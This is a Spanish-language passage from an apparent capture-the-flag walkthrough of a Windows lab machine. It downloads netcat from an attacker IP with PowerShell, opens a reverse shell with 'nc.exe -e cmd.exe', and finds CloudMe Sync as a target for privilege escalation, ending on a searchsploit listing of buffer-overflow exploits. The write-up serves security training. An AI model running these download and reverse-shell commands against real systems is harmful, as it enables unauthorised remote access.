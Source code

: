 ```console
C:\xampp\htdocs\gym\upload> powershell -c "wget 10.10.14.179:4848/nc.exe -o nc.exe"  
```

---

## Reverse Shell con Netcat

Máquina Atacante.
```console
kali@kali:~$ nc -lvnp 1234
```

Máquina de la víctima.
```console
C:\xampp\htdocs\gym\upload> nc.exe -e cmd.exe 10.10.14.45 1234	 
```

## Root Privesc

Luego de una enumeración básica, encontramos en la carpeta de descargas del `usuario` shaun un ejecutable `CloudMe_1112.exe`.

```console
C:\Users\shaun\Downloads> dir
	dir
	 Volume in drive C has no label.
	 Volume Serial Number is A22D-49F7

	 Directory of C:\Users\shaun\Downloads

	14/07/2020  13:27    <DIR>          .
	14/07/2020  13:27    <DIR>          ..
	16/06/2020  16:26        17,830,824 CloudMe_1112.exe
	               1 File(s)     17,830,824 bytes
	               2 Dir(s)   9,843,556,352 bytes free    
```

Basicamente CloudMe Sync es una aplicación de sincronización la cual sincroniza su almacenamiento local con el almacenamiento en la nube, y está a la escucha en el puerto `8888`.

---

```console
root@kali:~# searchsploit cloudme
	-------------------------------------------------------------------------- ---------------------------------
	 Exploit Title                                                            |  Path
	-------------------------------------------------------------------------- ---------------------------------
	CloudMe 1.11.2 - Buffer Overflow (PoC)                                    | windows/remote/48389.py
	CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                           | windows/local/48499.txt
	Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)                          | windows_x86-64/remote/45197.rb
	CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)                   | windows_x86-64/local/45159.py
	CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasploit)            | windows/remote/44175.rb
	CloudMe Sync 1.11.0 - Local Buffer Overflow                               | windows/local/44470.py
	CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                           | windows/remote/46218.py
	CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)                  | windows_x86-64/remote/46250.py
```